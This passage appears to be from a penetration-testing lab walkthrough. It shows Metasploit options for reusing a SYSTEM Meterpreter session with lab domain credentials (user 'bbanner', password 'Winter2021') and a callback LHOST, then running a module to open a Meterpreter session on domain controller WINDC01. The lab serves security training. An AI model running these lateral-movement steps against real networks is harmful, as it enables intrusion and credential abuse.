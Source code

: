	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	And run the payload:
	
	- `run -j`

	 ![A screenshot depicts the module settings.](Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	 ![A screenshot depicts the successful run and info of the system.](Images/wmiexploit.PNG)		
	